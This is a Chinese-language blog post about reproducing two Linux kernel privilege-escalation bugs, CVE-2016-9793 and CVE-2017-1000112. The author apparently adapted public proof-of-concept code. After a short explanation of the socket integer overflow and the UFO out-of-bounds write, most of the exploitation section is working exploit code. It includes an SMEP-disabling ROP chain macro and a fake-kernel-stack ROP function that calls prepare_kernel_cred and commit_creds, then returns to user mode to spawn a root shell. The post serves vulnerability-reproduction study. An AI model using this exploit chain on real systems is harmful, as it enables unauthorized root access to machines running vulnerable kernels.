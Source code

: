 ```yaml
---
layout: post
title: CVE-2016-9793与CVE-2017-1000112复现学习
description: "内核漏洞利用原理学习"
category: develop
tags: [kernel, debug, pwn]
imagefeature: http://7xwdx7.com1.z0.glb.clouddn.com/5551e1cabd3bb.jpg
comments: true
share: true
---
```


# CVE-2016-9793与CVE-2017-1000112复现学习

### 背景

近期工作中需要对一些已知的内核提权漏洞进行复现和有效性测试，因此对一些有cve编号的内核提权漏洞进行了学习。参考xairy大神的repo，逐一研究这些漏洞的利用过程。

其中，大神的两个漏洞CVE-2016-9793和CVE-2017-1000112，漏洞利用的原理和过程非常相似。在这里对复现过程进行简单的记录和思考。

### 技术细节

CVE-2016-9793是一个内核socket模块中的整形溢出漏洞，主要细节在于使用SO_SNDBUFFORCE标签对sk_sndbuf进行赋值时，可以使用u32变量来溢出int32整形变量。
当传入一个非法的值0xffffff00时，内核对该非法输入进行了一系列错误操作，导致最后内核会引用一个用户空间可控的skb_shared_info对象指针。攻击者通过在用户空间mmap到对应的对象指针地址，并为shinfo->destructor_arg这个变量赋值来控制PC指针的跳转，从而完成控制流的获取。

CVE-2017-1000112是一个内核越界写漏洞，攻击者通过构造一个恶意UFO packet来诱使skb_copy_and_csum_bits()函数执行越界写操作，从而获取一个可控的skb_shared_info对象。同理，利用shinfo->destructor_arg这个变量来劫持kernel的控制流，达到权限提升的目的。

### 漏洞利用

在利用这两个漏洞的过程中，利用点是一致的，都是使用一个可控的shinfo->destructor_arg变量来获取控制流。但是即使能够完成对内核PC指针的控制，还是要继续绕过KASLR和SMEP等缓解措施。

xairy大神在原始的POC代码中，提供了一个Disable SMEP的ROP chain。但是在实际运行过程中，这个Disable过程好像并没有起作用，内核仍然限制运行用户空间地址的代码。

{% highlight c %}
#define SMEP_MASK 0x100000

#define CHAIN_DISABLE_SMEP			\
	*stack++ = MOV_RAX_CR4_RET;		\
	*stack++ = NEG_RAX_RET;			\
	*stack++ = POP_RCX_RET;			\
	*stack++ = SMEP_MASK;			\
	*stack++ = OR_RAX_RCX_RET;		\
	*stack++ = NEG_RAX_RET;			\
	*stack++ = XCHG_EAX_EDI_RET;		\
	*stack++ = MOV_CR4_RDI_RET;
{% endhighlight %}

这里面的问题可能需要继续调试，确认控制寄存器CR4的值是否确实被改写了。这个问题留到后面去研究，正好之前学习了kernel rop的利用链，所以我这里直接放弃了改写CR4，而是直接构造一个虚假的内核stack来执行kernel rop。

以CVE-2017-1000112的POC代码为例，构造一个fake kernel stack来执行kernel rop的利用代码如下：

{% highlight c %}


void mmap_stack() {
	uint64_t stack_aligned, stack_addr;
	int page_size, stack_size, stack_offset;
	uint64_t* stack;

	page_size = getpagesize();

	stack_aligned = (XCHG_EAX_ESP_RET & 0x00000000fffffffful) & ~(page_size - 1);
	stack_addr = stack_aligned - page_size * 4;
	stack_size = page_size * 8;
	stack_offset = XCHG_EAX_ESP_RET % page_size;

	stack = mmap((void*)stack_addr, stack_size, PROT_READ | PROT_WRITE,
			MAP_FIXED | MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
	if (stack == MAP_FAILED || stack != (void*)stack_addr) {
		perror("[-] mmap()");
		exit(EXIT_FAILURE);
	}

	stack = (uint64_t*)((char*)stack_aligned + stack_offset);
    /*
	CHAIN_SAVE_ESP;
	CHAIN_DISABLE_SMEP;
	CHAIN_JMP_PAYLOAD;
    */
    void* temp_stack;
	assert((temp_stack = mmap((void*)0x30000000, 0x40000, 7, 0x32, 0, 0)) == (void*)0x30000000);

    save_state();
	*stack ++= POP_RDI_RET; /* pop %rdi; ret */

	stack = (uint64_t*)((char*)stack_aligned + stack_offset + 8 + 0x144);

	*stack ++= 0x0UL;                /* NULL */
	*stack ++= PREPARE_KERNEL_CRED; /* prepare_kernel_cred() */

	*stack ++= POP_RDX_RET; /* pop %rdx; ret */
	*stack ++= COMMIT_CREDS; // commit_creds() + 2 instructions

	*stack ++= MOV_RDI_RAX_CALL_RDX; /* mov %rax, %rdi; call %rdx */

    *stack ++= SWAPGS_POP_RBP_RET; // swapgs ; pop rbp ; ret
    *stack ++= 0xdeadbeefUL;         // dummy placeholder

	*stack ++= IRETQ; /* iretq */
	*stack ++= (uint64_t)shell; /* spawn a shell */
	*stack ++= user_cs;              /* saved CS */
	*stack ++= user_rflags;          /* saved EFLAGS */
	*stack ++= (uint64_t)(temp_stack+0x20000);  /* mmaped stack region in user space */
    *stack ++= user_ss;              /* saved SS */

}


{% endhighlight %}

改写后的POC即使没有关闭SMEP保护，但是仍然能完成后续的权限提升操作，运行效果如下图所示：
![cve-2017-1000112](http://7xwdx7.com1.z0.glb.clouddn.com/exp-cve-2017-1000112.png)

